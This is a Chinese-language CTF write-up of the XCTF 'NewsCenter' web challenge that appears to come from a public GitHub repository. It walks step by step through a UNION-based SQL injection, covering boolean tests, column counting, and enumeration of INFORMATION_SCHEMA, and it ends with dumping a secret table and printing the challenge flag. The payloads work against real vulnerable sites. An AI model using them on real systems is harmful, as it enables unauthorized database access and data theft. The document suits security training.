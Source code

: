 # Write-Up（Web部分）

## NewsCenter

+ 打开网页看到一个很朴素的页面，类似一个普通的新闻查询页面，页面正中间有一个搜索框：

![](https://github.com/ThoseBygones/CTF_Write-Up/blob/master/XCTF%EF%BC%88%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C%EF%BC%89/WEB/NewsCenter/Hacker_News.png?raw=true)

+ 在搜索框中输入任意内容，例如输入 <code>1</code> 发现除了底下 **News** 部分显示出包含字段 <code>1</code> 的新闻以外，什么都没有发生，没有 **alert弹窗** 之类的。

![](https://github.com/ThoseBygones/CTF_Write-Up/blob/master/XCTF%EF%BC%88%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C%EF%BC%89/WEB/NewsCenter/01.png?raw=true)

+ 猜测可能是 **SQL注入** ，首先尝试如下语句注入 `' and 1 = 1#` 什么都没发生...
+ 修改注入语句如下 `' and 1 = 2#` ，News部分变为空白，显然该 SQL 语句有效。

![](https://github.com/ThoseBygones/CTF_Write-Up/blob/master/XCTF%EF%BC%88%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C%EF%BC%89/WEB/NewsCenter/02.png?raw=true)

+ 利用union联合注入试探该sql查询返回的列数，首先尝试 1 列 `' and 1 = 2 union select 1#` ，页面跳转显示无法访问，说明不是 1 列。

+ `' and 1 = 2 union select 1, 2#` 同样失败。

+ `' and 1 = 2 union select 1, 2, 3#` 时，News部分出现内容

  > **2**
  >
  > 3

![](https://github.com/ThoseBygones/CTF_Write-Up/blob/master/XCTF%EF%BC%88%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C%EF%BC%89/WEB/NewsCenter/03.png?raw=true)

+ 于是进一步查询数据库中所有的数据表名 `' and 1 = 2 union select 1, TABLE_SCHEMA, TABLE_NAME from INFORMATION_SCHEMA.COLUMNS #` ，发现一个 **secret_table** 表：

![](https://github.com/ThoseBygones/CTF_Write-Up/blob/master/XCTF%EF%BC%88%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C%EF%BC%89/WEB/NewsCenter/03.png?raw=true)

![](https://github.com/ThoseBygones/CTF_Write-Up/blob/master/XCTF%EF%BC%88%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C%EF%BC%89/WEB/NewsCenter/05.png?raw=true)

+ 查询 **secret_table** 表中的所有字段 `' and 1 = 2 union select 1, 2, COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME = 'secret_table' #` ，发现表中字段如下：

![](https://github.com/ThoseBygones/CTF_Write-Up/blob/master/XCTF%EF%BC%88%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C%EF%BC%89/WEB/NewsCenter/06.png?raw=true)

+ **fl4g** 字段非常引人注目，猜测可能其中隐藏着 **flag**，因此进一步查询 **fl4g** 的内容 `' and 1 = 2 union select 1, 2, fl4g from secret_table #`
+ 成功得到 flag 。
+ flag: **QCTF{sq1_inJec7ion_ezzz}**

